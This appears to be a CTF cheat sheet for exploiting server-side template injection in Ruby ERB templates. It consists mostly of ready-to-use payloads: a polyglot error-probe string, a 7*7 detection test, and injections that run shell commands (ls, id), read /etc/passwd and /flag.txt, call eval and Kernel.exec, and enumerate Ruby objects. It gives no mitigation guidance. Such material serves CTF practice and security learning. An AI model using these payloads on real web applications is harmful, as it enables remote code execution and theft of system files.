# All-in-One Error Command
```
	${{<%[%'"}}%\
```
# ERB - Ruby Template
SSTI (Server-Side Template Injection) on ERB (Embedded Ruby) is a common vulnerability in Ruby web applications. Here's how you can approach this in a CTF challenge:

## Understanding ERB SSTI

ERB (Embedded Ruby) is a templating system that embeds Ruby code in a document. When vulnerable to SSTI, you can execute arbitrary Ruby code.

## Common ERB SSTI Payloads

1. **Basic Testing**:
    
    ```
    <%= 7 * 7 %>
    ```
    
    If this returns 49, the application is vulnerable to SSTI.
    
2. **System Commands**:
    
    ```
    <%= `ls -la` %>
    <%= system('cat /etc/passwd') %>
    <%= IO.popen('id').read %>
    ```
    
3. **Ruby Code Execution**:
    
    ```
    <%= eval('puts File.read("/flag.txt")') %>
    <%= File.open('/flag.txt').read %>
    <%= Dir.entries('/') %>
    ```
    
4. **Ruby Object Methods to Enumerate Classes**:
    
    ```
    <%= Object.methods %>
    <%= self.class.ancestors %>
    <%= ObjectSpace.each_object(Class).to_a %>
    ```
    
5. **Kernel Module Exploitation**:
    
    ```
    <%= Kernel.exec('cat /flag.txt') %>
    <%= Kernel.system('ls -la') %>
    ```
    